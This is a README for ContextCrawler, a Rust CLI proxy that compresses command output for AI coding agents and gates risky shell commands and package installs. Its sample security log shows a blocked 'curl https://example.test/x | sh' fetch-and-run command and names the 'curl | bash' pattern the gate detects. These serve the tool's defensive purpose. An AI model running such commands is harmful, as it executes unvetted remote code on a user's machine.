


<p align="center">
  
</p>

### A note from the author

[rtk-ai/rtk](https://github.com/rtk-ai/rtk) gave me the clean CLI proxy. [contextzip](https://github.com/jee599/contextzip) folded in the session and stacktrace compactors I kept reaching for. [Tirith](https://tirith.sh) gave me a real shell-syntax gate. I was meant to just *use* them. Instead I keep bolting more crap on: supply-chain gate, discover command, web extractor, session manager. I genuinely cannot stop.

The fluffy ragdoll up top is my recurring mascot, same one on the blog, same one anywhere I need a logo. Hat tip to **Matt Dinniman** ([Dungeon Crawler Carl](https://en.wikipedia.org/wiki/Dungeon_Crawler_Carl)) for the recent-reading inspiration behind the "Dammit exec()!" line.

Thanks **[rtk](https://github.com/rtk-ai/rtk)**, **[contextzip](https://github.com/jee599/contextzip)** and **[Tirith](https://tirith.sh)** for the bones. Sorry upstream for the bolt-ons. Not sorry for the cat.

# ContextCrawler

> [!WARNING]
> **Active development. Might work, might not. Use at your own risk.**
>
> This is a fast-moving downstream fork by one person. Before depending on
> it: build it yourself, test it against your own workflow, read the diff
> on top of upstream rtk, and run the code through your favourite LLM for
> a second opinion (why not). **Don't trust me — verify.** Bug reports
> welcome; expectations of stability shouldn't be.

ContextCrawler is a CLI proxy for AI coding agents (Claude Code, Cursor,
Copilot, Gemini, …) that does two things:

1. **Compresses** noisy command output before it eats your LLM context window.
2. **Gates** risky shell commands and supply-chain installs before any
   auto-approval reaches the agent.

One binary, one name: **`contextcrawler`**. Since 0.4.0 the same crate is
also a small Rust **library** (see [Use as a library](#use-as-a-library)).

## Built from

| Component | What it brings | License |
|---|---|---|
| [rtk-ai/rtk](https://github.com/rtk-ai/rtk) | The core CLI proxy framework: 60+ command filters (git, cargo, npm, kubectl, docker, …), the permission-verdict system (`allow` / `ask` / `deny` / `default`), and the agent-hook entrypoints used by every supported integration. Tracked via rebase against tagged releases. | Apache-2.0 / MIT |
| [jee599/contextzip](https://github.com/jee599/contextzip) | Originally the session-JSONL compactor, the multi-language stacktrace compressor (Node / Python / Rust / Go / Java), and the HTML web-content extractor. Carried over with per-file SPDX headers preserving attribution. In current contextcrawler the HTML extractor feeds the `curl` / `wget` filters and the stacktrace trimming is built into the test runners. | MIT |
| [Tirith](https://tirith.sh) ([sheeki03/tirith](https://github.com/sheeki03/tirith)) | A shell-syntax security inspector. ContextCrawler invokes it via subprocess as an optional defense-in-depth gate on the auto-allow path — block-level findings downgrade the verdict to *Ask*. | AGPL-3.0 (subprocess-only) |

Plus one capability **built in-tree**:

| Component | What it brings | Where |
|---|---|---|
| Supply-chain gate | Pre-install age-of-release + OSV CVE lookup for `npm` / `pnpm` / `yarn` and `pip` / `uv` / `poetry` / `pipx` installs. Honours pinned versions; caches lookups for 24 h. Opt-in via `~/.config/contextcrawler/supply-chain.toml`. | `src/hooks/supply_chain_gate.rs` |

## Goal

Make AI coding agents both **cheaper** and **safer** without changing how
you work:

- **Cheaper** — compress noisy command output before it eats your LLM
  context window. Inherits upstream rtk's 60+ command filters, with HTML
  chrome stripping folded into the `curl` / `wget` filters and per-language
  stacktrace trimming built into the test runners.
- **Safer** — when an agent proposes a shell command, run it past two
  optional gates before auto-approving: shell-syntax inspection (Tirith)
  and pre-install supply-chain checks (package age + OSV CVE lookup).
  Neither is mandatory; both are opt-in.

## Capabilities

Grouped by which upstream the capability comes from. Everything is one
binary; the split is for navigation, not packaging. See
[`docs/guide/commands.md`](docs/guide/commands.md) for the full command
reference.

### 1. Context & cache (from upstream rtk + contextzip)

| Command | Purpose | Source |
|---|---|---|
| `contextcrawler <git / cargo / npm / …>` | Drop-in for everyday rtk-style filtering — 60+ command filters inherited from upstream. | rtk |
| `contextcrawler pipe -f <filter>` | Read stdin, apply a named (or auto-detected) filter, print the compacted result. Unix-pipe mode for output you captured yourself. | downstream |
| `contextcrawler curl <url>` / `wget <url>` | Fetch over HTTP. HTML responses are stripped of nav / ads / scripts; JSON is auto-detected and schema-summarised. | rtk + contextzip |
| Stacktrace trimming | Framework frames in Node / Python / Rust / Go / Java tracebacks are dropped inside the test runners (`cargo test`, `pytest`, `gradlew`, …) — automatic, no separate command. | contextzip |
| `contextcrawler gain` | Token-savings stats from the local SQLite history DB. | rtk |
| `contextcrawler discover` | Scan Claude Code (or Codex) history for commands that could have been filtered but were not. | downstream |
| `contextcrawler init -g` | Register the agent hook with Claude Code (and other agents via `--agent`). | rtk |
| `contextcrawler hook claude` / `cursor` / `gemini` / `copilot` | Built-in agent-hook entrypoints. Configured by `contextcrawler init -g`. | rtk |

### 2. Security gate (Tirith pairing)

Optional. The gate only fires when [`tirith`](https://tirith.sh) is on
`PATH`; fail-open by default. Invoked subprocess-only — no statically
linked AGPL code.

| Command | Purpose | Source |
|---|---|---|
| `contextcrawler security` | Tirith gate dashboard — install status, gate mode, the downgrade-log location, and the most recent downgrade events. Add `--all` for the full log, `--json` for machine-readable output. | downstream |
| `contextcrawler security --scrub-logs` | Scrub credentials from existing audit logs in place (writes a `.bak-<ts>` backup). Pair with `--dry-run` to preview. | downstream |
| Tirith pre-execution gate | Routes auto-allow rewrites through `tirith check` first. Block-level findings downgrade to *Ask* so the user reviews the original command. | downstream + Tirith |

**Env knobs:**

| Variable | Effect |
|---|---|
| *(default)* | fail-open: if Tirith isn't installed, no gate, original contextcrawler verdict stands |
| `CONTEXTCRAWLER_TIRITH_REQUIRED=1` | fail-closed: refuse auto-allow without a working Tirith verdict |
| `CONTEXTCRAWLER_TIRITH_DISABLED=1` | bypass the gate entirely (debug only) |

When the gate blocks a legitimate command (the most common case is a
`curl ... | python3` REST workflow matching the `curl | bash` shape),
see [`docs/security/working-with-the-gate.md`](docs/security/working-with-the-gate.md)
for diagnosis, the gate-safe network-fetch pattern, and `tirith trust`
allowlisting.

### 3. Supply-chain pipeline control

Optional. Opt-in via `~/.config/contextcrawler/supply-chain.toml`.
Detects `npm`/`pnpm`/`yarn` and `pip`/`uv`/`poetry`/`pipx` install
commands; blocks auto-allow when the resolved version is younger than a
configurable cooldown or carries OSV-known CVEs.

| Item | Purpose |
|---|---|
| Supply-chain pre-install gate | Runs automatically on auto-allow when an install is detected. Block reasons (age below cooldown, known CVE) downgrade to *Ask*. Honours pinned versions; cached for 24 h at `~/.cache/contextcrawler/supply-chain/`. |
| Config: `[npm].cooldown_days`, `[pypi].cooldown_days` | Minimum days since publish before auto-allow (default `3`). |
| Config: `[npm].block_severity`, `[pypi].block_severity` | Minimum OSV severity that blocks (default `HIGH`). |
| Config: `[overrides].always_allow`, `[overrides].always_deny` | Per-package globs (`@types/*` etc.) to bypass either side of the gate. |

## Use as a library

Since 0.4.0 the crate publishes a small curated Rust API so a downstream
tool can apply ContextCrawler's filters to text it already has (for
example the stdout of a command it ran itself) without spawning the
`contextcrawler` CLI.

> [!WARNING]
> **The public API is experimental and NOT yet semver-guaranteed.** It may
> change between 0.x releases. There are no pre-built crates — depend on it
> from source and pin an exact tag. See [`docs/guide/library.md`](docs/guide/library.md)
> and the rustdoc (`cargo doc --open`) for the full surface.

Add it as a git dependency, pinned to a tag:

```toml
[dependencies]
contextcrawler = { git = "https://github.com/thehoff/contextcrawler", tag = "v0.4.0" }
```

Curated entry points (re-exported from the crate root):

| Function | Signature | What it does |
|---|---|---|
| `filter_output` | `fn filter_output(filter_name: &str, raw: &str) -> String` | Apply a named filter. Unknown name → `raw` returned unchanged. |
| `auto_filter_output` | `fn auto_filter_output(raw: &str) -> String` | Sniff `raw` and apply the matching filter; no match → `raw` unchanged. |
| `available_filters` | `fn available_filters() -> Vec<&'static str>` | The filter names `filter_output` accepts. |
| `summarize_command_output` | `fn summarize_command_output(output: &str, options: CommandOutputSummaryOptions<'_>) -> String` | Deterministic, heuristic summary of arbitrary command output. |
| `no_bloat` | `fn no_bloat<'a>(baseline: &'a str, filtered: &'a str) -> &'a str` | Return whichever of `baseline` / `filtered` costs fewer tokens, so a wrapper never costs more than it saves. |

The filtering helpers are panic-safe (a panicking filter falls back to the
raw input) and **exit-blind**: a piped filter only ever sees text, never
the command's exit code, so failure-aware behaviour (e.g. "show errors
only on non-zero exit") is not available through the library.

Minimal usage:

```rust
use contextcrawler::{
    filter_output, auto_filter_output, available_filters,
    summarize_command_output, CommandOutputSummaryOptions,
};

fn main() {
    let raw = "src/main.rs:42:fn main() {}\nsrc/lib.rs:7:pub fn helper() {}\n";

    // Apply a named filter.
    let compact = filter_output("grep", raw);
    println!("{compact}");

    // Or let it sniff the output shape.
    let compact = auto_filter_output(raw);
    println!("{compact}");

    // Or summarise arbitrary output deterministically.
    let opts = CommandOutputSummaryOptions::new("grep -rn fn src/", true);
    println!("{}", summarize_command_output(raw, opts));

    // Inspect what's available.
    println!("filters: {:?}", available_filters());
}
```

## Sample output

The `security` dashboard is the quickest way to see what the gates are
doing in your environment (downgrade events are sanitised below):

```text
$ contextcrawler security

ContextCrawler Tirith Gate — Status
════════════════════════════════════════════════════════════

Installation:
  [ok] tirith binary: ~/.cargo/bin/tirith

Gate state:
  [ok] enabled — every hook-routed command is inspected before exec
  [--] not required — tirith unavailability falls open (default)

Downgrade log:
  path: ~/.local/share/contextcrawler/downgrades.jsonl
  exists: yes

Recent downgrade events (last 10 of newest):
  tirith_block  curl_pipe_shell      curl https://example.test/x | sh
  tirith_block  pipe_to_interpreter  cat data | python3 parse.py
```

When Tirith is not installed the same command reports the gate as
fail-open and runs no inspection. Use `--all` for the full log and
`--json` for machine-readable output.

`contextcrawler gain` shows the token savings the filters have earned:

```text
$ contextcrawler gain

ContextCrawler Token Savings (Global Scope)
════════════════════════════════════════════════════════════

Total commands:    23
Input tokens:      3.1K
Output tokens:     899
Tokens saved:      2.2K (71.3%)
Total exec time:   61ms (avg 2ms)
```

## Diagrams

Click each section to expand. All diagrams are top-to-bottom Mermaid;
GitHub renders them inline.

<details>
<summary><strong>1. Project lineage — where each piece comes from</strong></summary>



</details>

<details>
<summary><strong>2. Runtime flow — what happens when an agent proposes a command</strong></summary>



</details>

## Install

Requires a Rust toolchain (`rustup`, stable channel, 1.80+). **There are
no pre-built binaries** — single-maintainer fork, you build it from
source. Installation is always through Cargo, never by copying a binary
around.

> [!IMPORTANT]
> **If you previously ran upstream `rtk` or `jee599/contextzip`**, your
> agent configs likely still hold hook entries pointing at the old
> `rtk` binary or `~/.claude/hooks/rtk-rewrite.sh` etc. Those will
> silently fail-open once `contextcrawler` takes over. Clean them out
> first — at minimum:
>
> ```sh
> # If you have the old binary, use its own uninstall first.
> rtk init -g --uninstall    2>/dev/null || true
>
> # Then check (and remove leftovers manually) in:
> #   ~/.claude/settings.json        — PreToolUse hook entry
> #   ~/.claude/hooks/rtk-rewrite.sh — leftover hook script
> #   ~/.claude/RTK.md / @RTK.md ref in CLAUDE.md
> #   ~/.cursor/hooks.json           — Cursor hook entry
> #   ~/.codex/AGENTS.md             — Codex rules block
> #   ~/.windsurfrules, ~/.clinerules — rules files
> ```
>
> After installing `contextcrawler` (below), `contextcrawler init -g`
> re-creates everything cleanly for whichever agents you use. Legacy
> `RTK_*` env vars are still honoured via a shim, so an existing
> `RTK_DISABLED=1` keeps working.

**From a clone (recommended — read the diff first):**

```sh
git clone https://github.com/thehoff/contextcrawler.git
cd contextcrawler
git checkout v0.4.0          # pin to the latest tagged release
cargo install --path .       # builds + installs to ~/.cargo/bin/
```

This drops `contextcrawler` into `~/.cargo/bin/`. Make sure that's on
your `PATH`.

**Or straight from git:**

```sh
cargo install --git https://github.com/thehoff/contextcrawler --tag v0.4.0 --locked
```

Bump the `--tag` value when newer releases ship — see the
[releases page](https://github.com/thehoff/contextcrawler/releases).

**Bleeding edge** (unreleased fixes on `develop`, expect churn):

```sh
cargo install --git https://github.com/thehoff/contextcrawler --branch develop --locked
```

`scripts/build-release.sh` is available for a path-remapped build (it sets
`--remap-path-prefix` so the binary doesn't embed your `$HOME` /
`$CARGO_HOME` / workspace path in backtrace metadata). Prefer
`cargo install --path .` for a normal install.

**Wire up the agent hook(s):**

Each agent needs its own init call — `init -g` only writes the chosen
agent's config per invocation. Run as many as you use; the hook scripts
for every supported agent are bundled into the binary, so you don't
need to install anything else.

```sh
contextcrawler init -g                       # Claude Code (default)
contextcrawler init -g --opencode            # OpenCode plugin (additive: also installs Claude)
contextcrawler init -g --copilot             # GitHub Copilot (VS Code + CLI)
contextcrawler init -g --gemini              # Gemini CLI
contextcrawler init -g --codex               # Codex CLI
contextcrawler init -g --agent cursor        # Cursor Agent (editor + CLI)
contextcrawler init -g --agent windsurf      # Windsurf (Cascade)
contextcrawler init -g --agent cline         # Cline / Roo Code (VS Code)
contextcrawler init -g --agent kilocode      # Kilo Code
contextcrawler init -g --agent antigravity   # Google Antigravity
contextcrawler init -g --agent hermes        # Hermes CLI
contextcrawler init -g --agent pidev         # Pi coding agent
```

For Claude Code the hook entry that `init -g` writes to
`~/.claude/settings.json` is `contextcrawler hook claude`. See
[Installation](docs/guide/getting-started/installation.md) and
[Supported agents](docs/guide/getting-started/supported-agents.md) for the
per-agent detail.

`contextcrawler init --show` prints what's currently registered.
`contextcrawler init -g --uninstall` reverses the last install for the
selected agent. See `contextcrawler init --help` for the full surface
(`--hook-only`, `--auto-patch`, `--no-patch`, `--claude-md` legacy,
`--dry-run`).

**Optional defense-in-depth gate:**

```sh
# ContextCrawler shells out to `tirith` directly, so the binary on PATH
# is all the gate needs — no shell hook required.
cargo install tirith

# Optional separately: have Tirith also vet your own typed commands.
# eval "$(tirith init --shell zsh)"   # or bash / fish
```

**Optional supply-chain gate** (opt-in):

```sh
mkdir -p ~/.config/contextcrawler
cat > ~/.config/contextcrawler/supply-chain.toml <<'EOF'
[supply_chain]
enabled = true

[npm]
cooldown_days  = 3
block_severity = "HIGH"

[pypi]
cooldown_days   = 3
block_severity  = "HIGH"
allow_editable  = true
EOF
```

## Configuration & data locations

| What | Path (Linux; macOS uses the platform equivalent) |
|---|---|
| Core config | `~/.config/ctxcrl/config.toml`, `~/.config/ctxcrl/filters.toml` |
| Savings history (SQLite) | `~/.local/share/ctxcrl/history.db` |
| Supply-chain config | `~/.config/contextcrawler/supply-chain.toml` |
| Tirith downgrade log | `~/.local/share/contextcrawler/downgrades.jsonl` |

Environment variables use the `CTXCRL_*` prefix (`CTXCRL_DISABLED=1`,
`CTXCRL_TEE_DIR`, `CTXCRL_TELEMETRY_DISABLED=1`, …). The legacy `RTK_*`
names are still honoured for backwards compatibility. See
[Configuration](docs/guide/getting-started/configuration.md) for the full
list.

## License

The downstream parts of this repository are MIT.

- Upstream rtk content remains under its original license terms (see
  the root `LICENSE`). Note that upstream rtk's repo is internally
  inconsistent (`LICENSE` says Apache-2.0; `Cargo.toml` says MIT). We
  preserve those upstream files as-is.
- Source files we add or carry over carry per-file SPDX-License-Identifier
  headers citing their origin (jee599/contextzip MIT for ported modules;
  ContextCrawler contributors MIT for new additions).
- Tirith is AGPL-3.0 and is **only invoked via subprocess**; no statically
  linked AGPL code in this distribution.

## Attribution

- [rtk-ai/rtk](https://github.com/rtk-ai/rtk) — upstream base. Active,
  47K stars, current release v0.39.0. ContextCrawler tracks their tagged
  releases.
- [jee599/contextzip](https://github.com/jee599/contextzip) — source of the
  session compactor, stacktrace compressor, and HTML extractor. Each
  carried-over file has a per-file SPDX header citing this upstream.
- [sheeki03/tirith](https://github.com/sheeki03/tirith) — invoked via
  subprocess for the optional defense-in-depth gate.

## Status

v0.4.0 — the library pivot: the binary is now a thin shim over the
`contextcrawler` library crate, which also exposes the experimental
filter/summary API above. See [`CHANGELOG.md`](CHANGELOG.md).
